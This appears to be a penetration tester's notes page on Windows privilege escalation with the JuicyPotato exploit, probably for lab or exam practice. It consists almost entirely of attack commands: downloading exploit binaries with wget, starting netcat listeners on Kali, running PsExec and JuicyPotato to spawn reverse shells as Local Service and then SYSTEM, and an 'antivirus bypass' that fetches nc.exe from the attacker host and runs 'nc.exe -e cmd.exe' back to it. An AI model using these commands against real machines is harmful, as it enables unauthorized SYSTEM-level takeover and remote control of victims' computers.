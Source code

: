 [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

####  64 / 32 bit downloads
```bash - kali
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```bash - kali
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
```

(Note: These steps are for Windows 7)

1. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[1._rlwrap]]

3. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
C:\PrivEsc\PSExec64.exe -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```

4. Start another listener on Kali.

![[1._rlwrap]]

5. Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```batch - windows
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

6. If the CLSID ({03ca…) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.

#### NC Netcat bypass AntiVirus
```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/nc.exe -OutFile nc.exe'
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 4444
```

```powershell - windows
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

```bash - windows
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```
